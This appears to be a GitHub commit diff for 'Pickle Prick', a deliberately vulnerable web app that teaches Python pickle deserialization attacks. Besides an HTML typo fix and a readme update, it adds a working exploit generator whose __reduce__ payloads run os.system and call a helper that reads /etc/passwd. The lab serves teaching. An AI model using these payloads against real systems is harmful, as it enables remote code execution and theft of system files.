

Fixing for release

Changed region(s): [[0.3033, 0.1214, 0.3337, 0.1517]]

diff --git a/application/pickleprick.html b/application/pickleprick.html
@@ -34,7 +34,7 @@
             <img src="static/gif.gif" height="auto" width="100%">
         </div>
         <div class="col-lg-3">
-            <h3>Add an adventures</h3>
+            <h3>Add an adventure</h3>
             <form action="/add" method="POST" id="form-form">
                 <input id="form-date" type="text" name="date" class="form-control">
                 <select id="form-universe" class="custom-select" name="dimension">

diff --git a/exploit/evil_rick_generator.py b/exploit/evil_rick_generator.py
@@ -1,0 +1,33 @@
+import pickle
+import base64
+import evil_rick_shell
+import os
+
+class EvilRick1(object):
+    def __reduce__(self):
+        with open("evil_rick_shell.py") as f:
+            data = f.readlines()
+        shell = "\n".join(data)
+        return os.system, ("echo '{}' > evil_rick_shell.py".format(shell),)
+
+
+class EvilRick2(object):
+    def __reduce__(self):
+        return evil_rick_shell.do_evil, ()
+
+
+prick = pickle.dumps(EvilRick1())
+if os.name == 'nt':
+    prick = prick[0:3] + b"os" + prick[5:]
+pickle_prick = base64.b64encode(prick).decode()
+with open("evil_rick1.data", "w") as file:
+    file.write(pickle_prick)
+print(prick)
+
+print("----")
+
+prick = pickle.dumps(EvilRick2())
+pickle_prick = base64.b64encode(prick).decode()
+with open("evil_rick2.data", "w") as file:
+    file.write(pickle_prick)
+print(pickle_prick)

diff --git a/exploit/evil_rick_shell.py b/exploit/evil_rick_shell.py
@@ -1,0 +1,4 @@
+def do_evil():
+    with open("/etc/passwd") as f:
+        data = f.readlines()
+    return [{"date": line, "dimension": "//", "planet": "//","morty": "//"} for line in data]

diff --git a/readme.md b/readme.md
@@ -1,8 +1,10 @@
 # Pickle Prick
 
+A vulnerable web application to explain and illustrate deserialization of untrusted data with Pickle.
+
 **Warning ! Don't run this application on an Internet facing interface !!!**
 
-*Blog article currently in work ...*
+For more information, see [my blog article](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)
 
 ## Goal
 
